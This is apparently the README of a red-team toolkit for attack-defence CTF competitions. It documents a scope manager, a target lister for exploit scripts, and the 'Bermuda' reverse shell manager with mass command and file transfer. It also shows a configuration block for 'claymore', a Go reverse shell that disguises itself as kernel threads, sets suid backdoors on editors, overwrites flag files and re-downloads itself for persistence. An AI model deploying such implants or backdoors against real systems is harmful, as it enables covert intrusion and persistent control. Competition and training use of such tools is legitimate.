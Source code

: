 # C3T NCX Toolsuite

# setup.sh

This script will install all the tools needed to run the C3T NCX Toolsuite. It will also install the C3T NCX Toolsuite.

Select host mode only if you are the team captain. Select client mode if you are a team member. 

In order for the tools to work properly, you must NOT run the script as root.

The computers used for the engagement need to be able to talk to each other.

To launch it:
```
./setup.sh
```
And follow the prompts.

# Red Tools

## Area of Operations
Used to set the scope of the competition and blacklist friendly hosts from being scanned.

It is recommended to run this script at the beginning of the competition to set the scope and blacklist friendly hosts. This will prevent the scanner from scanning friendly hosts and will prevent the scanner from scanning out of scope hosts. Additionally it allows other tools to check if a host is in scope or not.

When you run the script, it will open up a command prompt. The commands are as follows:

```
python redtools/area_of_operations.py

Valid commands are: ls, add, rm, exit, blacklisted, blacklist, unblacklist

ls : List all the in scope ranges.

add : Add a range to the in scope ranges.

rm : Remove a range from the in scope ranges.

blacklisted : List all the blacklisted ranges.

blacklist : Blacklist a range.

unblacklist : Unblacklist a range.

```

## Forward Observer
Used to print lists of hosts for exploit scripts.

It is recommended to use this script to print lists of hosts for exploit scripts. This will allow you to easily copy and paste the list of hosts into your exploit script.

When you run the script it will spit out a list of targets. The targets are seperated by a space by default. You can change the seperator with the -s flag. You can also add a newline after each target with the -n flag.

Targets will NOT be printed if they are blacklisted or out of scope, and it will print a warning if you try to add a target that is blacklisted or out of scope.


```
usage: forward_observer.py [-h] [-s SEPERATOR] [-n] target [target ...]

Print a list of targets to use in custom scripts

positional arguments:
  target                The target ip range to print

options:
  -h, --help            show this help message and exit
  -s SEPERATOR, --seperator SEPERATOR
                        The seperator to use when parsing the target
  -n, --newline         Print a newline after each target
```

You can pipe the output of this script into another script like so:

```
python redtools/forward_observer.py | ./exploit_script.py
```

or you can write the output to a file like so:

```
python redtools/forward_observer.py > targets.txt
```


## Bermuda

Reverse shell manager.

It is recommended to run this script in a screen or tmux session. This will allow you to keep the reverse shell alive even if you disconnect from the server.

When you run the script it will open up a command prompt. The commands are as follows:

```
help: print this help message
exit: exit the server
mass_command: run a command on all the reverse shells that match the given IP range
        Usage: mass_command (target ip glob range) (command) ...
shells: list all the reverse shells that are connected
interact: interact with a reverse shell
        Usage: interact (shell_ip:shell_port)
attach: interact with a reverse shell
        Usage: attach (shell_ip:shell_port)
connect: interact with a reverse shell
        Usage: connect (shell_ip:shell_port)
upload: upload a file to a reverse shell
        Usage: upload (ip glob) (filename)
download: download a file from a reverse shell
        Usage: download (shell_ip:shell_port) (filename) [directory]
```

# Payloads

## claymore
Smart reverse shell.

- Reconnects back periodically.
- Renames itself to something unsuspicious.
- Overwrites the flag file constantly.

### Usage
Remember to change the options in the script. YOU MUST DO THIS
```
        //Define the list of IP addresses to connect to.
        ips := []string{"127.0.0.1", "localhost"} // Example list of IP addresses
        //Define the port to connect to.
        port := "1984"
        //Define the paths to all the ctf flag files to overwrite with our own.
        flagFiles := []string{"/home/justin/flag.txt"} // Example list of flag file paths
        //define the string to overwrite the flag files with.
        flag := "flag{this_is_a_fake_flag}"
        //define the list of binaries to add the suid bit to. (ROOT ONLY)
        setuidBackdoorBinaries := []string{"/usr/bin/vim", "/usr/bin/vi", "/usr/bin/nano", "/bin/ed"}
        //rename the process to something less suspicious.
        list_of_unsuspicious_filenames := []string{
                "[kworker/0:1]",
                "(sd-pam)",
                "[irq/16-vmwgfx]",
                "[scsi_eh_29]",
                "[acpi_thermal_pm]",
                "[kworker/0:0-events]",
                "[migration/0]",
                "[ksoftirqd/0]",
        }
        //Define the address to download this binary from for the persistence.
        downloadURL := "http://127.0.0.1:5000/hello"
```                                                                                                                                              
